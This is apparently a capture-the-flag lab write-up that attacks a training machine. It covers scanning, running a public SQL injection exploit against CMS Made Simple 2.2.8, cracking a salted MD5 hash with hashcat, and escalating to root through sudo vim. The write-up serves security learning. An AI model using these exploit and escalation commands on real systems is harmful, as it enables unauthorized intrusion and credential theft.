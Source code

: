 # Simple CTF

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, hashcat, exploitdb

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.145.85

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-sC: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
```
nmap -sC -sV -oN nmap.txt 10.10.145.85
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3),<br>
    80 (http Apache httpd 2.14.18),<br>
    2222 (ssh OpenSSH 7.2p2)

Anonymous login to ftp server is allowed

Vulnerability scan with nmap
```
nmap --script vuln 10.10.145.85
```

![1.5](./imgs/1.5.png)

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.145.85 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Pages of Interest: /robots.txt, /simple

robots.txt has disallow entry /openemr-5_0_1_3

![1.3](./imgs/1.3.png)

/openemr-5_0_1_3 gives 404 error

/simple is a website that uses CMS Made Simple v 2.2.8

![1.4](./imgs/1.4.png)

### 2. FTP LOGIN

Anonymously login to ftp
```
ftp anonymous@10.10.145.85
```
cannot get file named pub from ftp server

### 3. EXPLOIT

Query ExploitDB for exploits
```
searchsploit cms made simple
```

![3.1](./imgs/3.1.png)

CMS Made Simple 2.2.8 is vulnerable to SQLi (CVE-2019-9053) through the installed news module

Use exploit
```
python3 /usr/share/exploitdb/exploits/php/webapps/46635.py -u http://10.10.145.85/simple
```

![3.2](./imgs/3.2.png)

**USERNAME**: mitch

PASSWORD SALT: 1dac0d92e9fa6bb2<br>
PASSWORD HASH: 0c01f4468bd75d7a84c7eb73846e8d96$  

Password cracking failed so will have to manually crack the password with hashcat
```
echo "0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2" > hash
hashid hash
```

![3.3](./imgs/3.3.png)

Hash type could be md5

-a ATTACK_MODE (0 = straight)<br>
-m HASH_TYPE (20 = md5(\$salt.\$pass))
```
hashcat -a0 -m20 hash /usr/share/wordlists/rockyou.txt
```

![3.4](./imgs/3.4.png)

**PASSWORD**: secret

### SSH LOGIN

Log into SSH with found credentials
```
ssh mitch@10.10.145.85 -p2222
```
![4.1](./imgs/4.1.png)

**USER FLAG**: G00d j0b, keep up!

Check privileges
```
sudo -l
```

![4.2](./imgs/4.2.png)

Can run vim as root

### PRIVILEGE ESCALATION

From https://gtfobins.github.io/gtfobins/vim/#sudo
```
sudo vim -c ':!/bin/sh'
```

![5.1](./imgs/5.1.png)

**ROOT FLAG**: W3ll d0n3. You made it!